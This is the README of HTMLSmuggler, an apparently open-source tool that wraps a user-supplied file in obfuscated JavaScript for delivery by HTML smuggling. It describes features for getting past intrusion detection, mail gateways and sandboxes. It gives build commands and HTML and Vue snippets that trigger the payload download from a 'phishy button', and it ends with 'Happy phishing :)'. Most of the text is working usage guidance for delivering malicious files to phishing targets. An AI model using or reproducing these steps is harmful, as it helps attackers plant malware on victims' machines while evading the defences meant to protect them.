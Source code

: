 # HTMLSmuggler ✉️

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

HTMLSmuggler - JS payload generator for IDS bypass and payload delivery via HTML smuggling.

## Description

The full explanation what is HTML Smuggling may be found [here](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/).

The primary objective of HTML smuggling is to bypass network security controls, such as firewalls and intrusion detection systems, by disguising malicious payloads (e.g. executables/archives/etc.) within seemingly harmless HTML and JavaScript code. By exploiting the dynamic nature of web applications, attackers can deliver malicious content to a user's browser without triggering security alerts or being detected by traditional security mechanisms. Thanks to this technique, the download of a malicious file is not displayed in any way in modern IDS solutions.

The main goal of HTMLSmuggler tool is creating an independent javascript library with embedded malicious user-defined payload. This library may be integrated into your phishing sites/email html attachments/etc. to deliver embedded payload to the target user system (bypassing IDS and IPS system). An example of created javascript library may be found [here](examples/html/payload.umd.js).

## Features

* Built-in highly configurable JavaScript obfuscator that fully hides your payload makes it impossible to extract your payload from javascript manually.
* Powerful client-side bots and headless crawlers detection library that doesn't share your payloads with smart secure mail gateways and their friends.
* Delay before loading to avoid sandboxes that are in a hurry.
* May be used both as an independent JS library or embedded in JS frameworks such as React, Vue.js, etc.
* The simplicity of the template allows you to add extra data handlers/compressions/obfuscations.

## Installation

1. [Install yarn](https://classic.yarnpkg.com/lang/en/docs/install/) package manager.
2. Install dependencies:

    ```bash
    yarn
    ```

3. Read help message.

    ```bash
    yarn build -h
    ```

    ```text
    Options:
      -p, --payload <string>   Path to payload file you want to smuggle
      -n, --name <string>      Name of file, that would be downloaded
      -t, --type <string>      Contet-Type of downlonaded file (default: "application/octet-stream")
      -f, --function <string>  Name of exported function (default: "download")
      -c, --compress           Enable payload compression (gzip)
      -d, --delay <number>     Delay before antibot and download in ms (default: 0)
      -a, --antibot            Enable bot detection and block them (recommended)
      -h, --help               display help for command
    ```

## Usage

### Preparation steps

1. **(Optional)** Modify [javascript-obfuscator options](https://github.com/javascript-obfuscator/javascript-obfuscator#javascript-obfuscator-options) in `obfuscator.js`, my preset is nice, but very slow.
2. Compile your javascript payload:

    > ⚠️ AVOID USAGE OF PAYLOADS BIGGER THAN 3 MiB (see [FAQ](#faq))

    ```bash
    yarn build -p /path/to/payload -n file.exe -t "application/octet-stream" -c -a -d 3000
    ```

3. Get your payload from `dist/payload.esm.js` or `dist/payload.umd.js`. After that, it may be inserted into your page and called with `download()` (or custom specified with `-f` flag) function.

    > `payload.esm.js` is used in `import { download } from 'payload.esm';` imports (ECMAScript standart).
    >
    > `payload.umd.js` is used in html script SRC and `require('payload.umd');` imports (CommonJS, AMD and pure html).

### Pure HTML example

A full example may be found [here](examples/html/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to html file (or insert it inline):

    ```html
    <head>
      <script src="payload.umd.js"></script>
    </head>
    ```

3. Call `download()` function from body:

    ```html
    <body>
      <button onclick="download()">Some phishy button</button>
    </body>
    ```

4. Happy phishing :)

### VueJS example

A full example may be found [here](examples/vuejs/).

1. Do [preparation steps](#preparation-steps).
2. Import created script to vue file:

    ```vue
    <script>
      import { download } from './payload.esm';
    </script>
    ```

3. Call `download()` function:

    ```vue
    <template>
      <button @click="download()">Some phishy button</button>
    </template>
    ```

4. Happy phishing :)

## FAQ

**Q**: I have an error `RangeError: Maximum call stack size exceeded`, how to solve it?

**A**: This [issue described here](https://github.com/javascript-obfuscator/javascript-obfuscator/issues/89). To fix it, try to disable `splitStrings` in `obfuscator.js` or make smaller payload (it's recommended to use up to 2 MB payloads because of this issue).

---

**Q**: Why does my payload build so long?

**A**: The bigger payload you use, the longer it takes to create a JS file. To decrease time of build, try to disable `splitStrings` in `obfuscator.js`. Below is a table with estimated build times using default `obfuscator.js`.

| Payload size | Build time |
| --- | --- |
| 525 KB | 53 s |
| 1.25 MB | 8 m |
| 3.59 MB | 25 m |
